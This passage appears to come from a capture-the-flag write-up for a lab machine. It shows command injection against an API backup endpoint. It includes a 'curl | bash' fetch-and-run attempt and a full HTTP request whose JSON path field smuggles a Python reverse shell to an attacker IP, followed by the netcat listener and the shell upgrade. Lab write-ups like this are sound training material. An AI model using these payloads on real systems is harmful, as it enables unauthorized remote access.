 There are a few things I’ll try that don’t work, including:
- a basic [bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw) in directly in the request;
- base64 encoding that shell and echoing it to decode and then piping into `bash`;
- trying `curl 10.10.14.6/shell.sh | bash` (no connection at my webserver).

The site could be running in a Docker container with very limited commands. I know that the host does have Python, so I’ll grab a one-liner from [revshells.com](https://www.revshells.com/) (“Python3 shortest”) and drop it in:

```

POST /admin/backup HTTP/1.1
Host: api.mentorquotes.htb
Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lc0BtZW50b3JxdW90ZXMuaHRiIn0.peGpmshcF666bimHkYIBKQN7hj5m785uKcjwbD--Na0
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/110.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://api.mentorquotes.htb/docs
Origin: http://api.mentorquotes.htb
Connection: close
Content-Type: application/json
Content-Length: 152

{"path": ";python -c 'import os,pty,socket;s=socket.socket();s.connect((\"10.10.14.6\",443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\"sh\")';"}

```

On sending this, I get a shell:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.193 40268
/app #

```

I’ll do a shell upgrade here:

```

/app # ^Z              
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443
            reset
/app # ls
Dockerfile        app               python            requirements.txt
/app # 

```
